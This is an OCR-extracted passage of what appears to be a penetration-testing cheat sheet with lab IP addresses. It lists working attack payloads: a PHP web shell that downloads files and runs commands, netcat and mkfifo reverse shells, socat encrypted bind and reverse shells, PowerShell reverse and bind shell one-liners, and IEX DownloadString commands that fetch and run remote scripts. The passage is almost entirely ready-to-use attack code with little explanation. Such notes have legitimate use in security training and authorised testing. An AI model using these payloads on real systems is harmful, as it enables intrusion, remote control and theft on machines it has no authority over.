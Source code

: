             <?php
              if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.19:8000/" . $_REQUEST['fupload']));
              };
              if (isset($_REQUEST['fexec'])) {
                echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
              };
            ?>
            
           - Then:
                http://10.10.10.9/catch.php?fupload=nc64.exe  
                http://10.10.10.9/catch.php?fexec=nc64.exe 10.10.16.10 1234 -e cmd.exe  
                
    - LFI Example:  
    
            <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.186 4444 >/tmp/f'); ?>
            
            Try browser access with /file and /file.php  

#### Socat Encrypted Shells:
    Bind Shell:
        Generate bind.pem and transfer to victim machine:
            openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt
            cat bind.key bind.crt > bind.pem
        Victim: socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash
            Windows:  LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes
        Attacker: socat - OPENSSL:192.168.168.130:4443,verify=0
    Reverse Shell:
        Generate bind.pem on attacker machine.
        Attacker: socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT
        Victim: socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash
            Windows: socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:'cmd.exe',pipes

### WINDOWS SPECIFIC:
    One-liners:
        Powershell:
            powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
            powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
            Bind Shell:  powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
    Powershell Scripts:
        cmd /c echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.119.186/mini-reverse.ps1') | powershell -noprofile -
        cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')
        c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://192.168.119.186:80/Invoke-PowerShellTcp.ps1')